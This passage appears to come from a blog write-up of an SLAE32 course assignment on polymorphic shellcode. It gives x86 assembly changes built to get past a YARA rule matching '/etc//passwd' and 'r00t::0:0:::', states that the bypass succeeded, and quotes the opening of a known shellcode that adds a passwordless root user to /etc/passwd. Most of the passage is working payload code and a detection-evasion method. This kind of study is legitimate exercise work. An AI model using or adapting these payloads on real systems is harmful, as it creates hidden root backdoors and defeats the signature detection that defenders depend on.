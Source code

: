 Modifications to bypass the "/etc//passwd" condition:

    mov esi, 0x53666162
    add esi, 0x11111211
    mov dword [esp-4], esi ; dwss
    sub esi, 0x3074444
    mov dword [esp-8], esi ; ap//
    sub esp, 8
    push 0x6374652f

Modifications to bypass the "r00t::0:0:::" condition:

    mov esi, 0x2805e3b8
    add esi, 0x12345678 
    mov dword [esp-4], esi ; :::0
    sub esp, 4
    push 0x3a303a3a ; :0::
    push 0x74303072 ; t00r

As we can see, our modification succeded to bypass the yara rule.

<img src="/assets/slae32-img/assignment6/assignment6.8.PNG" alt="drawing" style="width:900px;"/> 

***Shellcode Length details***
- Length of the original shellcode: 69 bytes
- Length of the modified shellcode: 100 bytes
- Percentage length of the modified shellcode from the original: 144.9%

**Original shellcode:**

    ;By Kris Katterjohn 11/14/2006
    ;69 byte shellcode to add root user 'r00t' with no password to /etc/passwd
    ;for Linux/x86

    section .text

          global _start

     _start:

     ; open("/etc//passwd", O_WRONLY | O_APPEND)

          push byte 5
          pop eax
          xor ecx, ecx
          push ecx
          push 0x64777373
          push 0x61702f2f
          push 0x6374652f
          mov ebx, esp
          mov cx, 02001Q
          int 0x80
